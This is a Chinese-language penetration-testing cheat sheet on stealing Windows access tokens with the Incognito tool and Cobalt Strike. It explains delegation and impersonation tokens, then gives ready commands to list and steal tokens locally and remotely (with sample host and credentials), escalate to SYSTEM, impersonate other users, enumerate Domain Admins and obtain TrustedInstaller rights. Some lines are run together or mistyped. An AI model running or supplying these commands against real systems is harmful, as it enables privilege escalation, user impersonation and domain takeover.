


使用incognito可以窃取令牌以任意用户身份执行任意命令或payload
得到当前管理员权限，域管理员帐户已登录到该计算机，则可能可以简单地从中读取域管理员的访问令牌
列出域管理组成员：
net groups "Domain Admins" /domain0x01、ACCESS TOKEN(访问令牌)：
当用户登录时，Windows会为此用户创建访问令牌，用于存储用户的身份和特权
Token在用户创建进程或者线程时会被使用，那么这些进程或者线程能够访问哪些资源取决于当前令牌
0x02、令牌类型
Delegation token(授权令牌):用于交互会话登录(例如本地用户直接登录、远程桌面登录)
Impersonation token(模拟令牌):用于非交互登录(利用net use访问共享文件夹)
这两种令牌,都会在系统重启以后被清除, 否则将会一直驻留在内存中,而授权令牌则会在用户注销以后自动被转为模拟令牌,但仍然可利用。
0x03、本地和远程的基本用法
本地：
查看 token：
incognito.exe list_tokens–u
获取到已注销用户 int18\administrator的token,盗取token 执行命令：
incognito.exe execute -c "int18\administrator" calc.exe 远程：
incognito -h 10.101.112.213 -u employee2012\administrator -p abc@123 list_tokens -u
incognito -h 10.101.112.213 -u employee2012\administrator -p abc@123 execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
0x04、提权、降权、伪造（以本地示例)
incognito execute -c "NT AUTHORITYSYSTEM" cmd.exe #提权至system
incognito execute -c "int\test" cmd.exe #降权至当前 test 用户
incognito execute -c "int\test1" cmd.exe #伪造test1 用户 0x03、获取TrustedInstaller 权限（修改系统文件）
管理员、System 均无法修改系统文件、需 TrustedInstaller 权限
借用 TrustedInstaller.exe 的 token 创建子进程，这样子进程就有了 TrustedInstaller 权限
在CS下获取TrustedInstaller
shell sc strat TrustedInstaller
steal token 1700 ##ps查看TrustedInstaller进程号
shell whoami /groups
链接：
https://blog.csdn.net/qq_36374896/article/details/84261516
https://tyranidslair.blogspot.nl/2017/08/the-art-of-becoming-trustedinstaller.html